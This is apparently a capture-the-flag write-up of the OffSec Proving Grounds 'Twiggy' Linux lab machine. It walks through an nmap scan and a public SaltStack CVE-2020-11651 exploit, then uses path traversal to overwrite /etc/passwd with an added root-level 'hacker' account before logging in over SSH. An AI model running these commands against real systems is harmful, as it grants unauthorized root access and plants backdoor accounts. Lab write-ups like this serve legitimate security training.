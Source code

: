 ```yaml
---
title: "Proving grounds Practice: Twiggy"
excerpt: "Offsec proving grounds practice linux machine writeup"
date: 2025-08-24
categories: pg_practice
tags: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- pg-practice
typora-root-url: ../../
date: 2020-05-25
last_modified_at: 2020-05-25
---
```


## Nmap

```sh
$ nmap -p- -Pn -n --open 192.168.58.62
[ . . . ]
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

## Web
### PORT: 80

![img](/images/2025-08-25-twiggy/image.png)

### PORT: 8000

![img](/images/2025-08-25-twiggy/image-1.png)

The SaltStack Salt REST API is running.

![img](/images/2025-08-25-twiggy/image-2.png)

SaltStack is vulnerable to [Saltstack 3000.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48421)

## Exploitation

```sh
python exploit.py --master 192.168.174.62 

(salt)?(kali?kali)-[~/Desktop]
$ python3 -W ignore exploit.py --master 192.168.53.62
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/salt/lib/python3.13/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.53.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=

---

python exploit.py --master 192.168.174.62 --read /etc/passwd
```

![img](/images/2025-08-25-twiggy/image-3.png)

unable to obtain reverse shell using the `--exec` command in the exploit but we will be able to create and add our own new user account to the `/etc/passwd` file.

### Create new user

```sh
openssl passwd hacked
$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1
```

`hacked` is the password.

Add the following to the `/etc/passwd` content we have extracted from the attacking machine.

```text
hacker:$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1:0:0:root:/root:/bin/bash
```

**Writing /etc/passwd file**

```sh
(salt)?(kali?kali)-[~/Desktop]
$ python3 -W ignore exploit.py --master 192.168.53.62 --upload-src passwd --upload-dest ../../../../../../../../../../../../etc/passwd

```

![img](/images/2025-08-25-twiggy/image-6.png)

**Verify the user existence**

![img](/images/2025-08-25-twiggy/image-5.png)

SSH to the attacking machine using the username as `hacker` and password `hacked`.

![img](/images/2025-08-25-twiggy/image-4.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr). 